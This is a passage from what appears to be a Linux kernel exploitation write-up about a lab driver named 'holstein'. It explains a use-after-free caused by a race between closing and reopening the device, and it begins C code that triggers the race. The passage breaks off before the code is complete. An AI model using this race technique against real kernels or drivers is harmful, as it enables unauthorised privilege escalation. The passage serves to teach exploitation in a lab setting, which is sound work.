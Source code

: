 ```c
    printk(KERN_WARNING "Failed to add cdev\n");
    unregister_chrdev_region(dev_id, 1);
    return -EBUSY;
  }

  return 0;
}

static void __exit module_cleanup(void)
{
  cdev_del(&c_dev);
  unregister_chrdev_region(dev_id, 1);
}

module_init(module_initialize);
module_exit(module_cleanup);

```

We got a pretty simple driver, when we open the device, a chunk of 0x400 is being allocated and a pointer to it is being saved to a global `g_buf`.
We also get to read and write a max of 0x400 bytes into the allocated chunk.
The chunk is being freed when the module is released - when the last holder of the file descriptor closes it.

## Vulnerability
The vulnerability is a UAF which is caused by a race condition on releasing the module:
1. If the last hold of the file descriptor closes it, `module_close` is called - thread 1.
2. Context switch occurs to another thread (thread 2), which opens a handle to the module, allocating a new chunk.
3. Context switch happens again back to thread 1, which frees the freshly allocated chunk.
4. We got a dangling pointer to a freed chunk using the fd in thread 2.

# Exploit
## Triggering the race
Lets look on the following code:
```c

bool stop_running = false;

void *race_thread() {
    while (!stop_running) {
        int fd;
        if (!(fd = open("/dev/holstein", O_RDWR))) {
            printf("open worker_thread failed!");
            exit(1);

        }
        close(fd);
    }
    return NULL;
}


int main() {

    pthread_t thr;
    pthread_create(&thr, NULL, reinterpret_cast<void *(*)(void *)>(race_thread), NULL);

    while (true) {
        int fd;
```
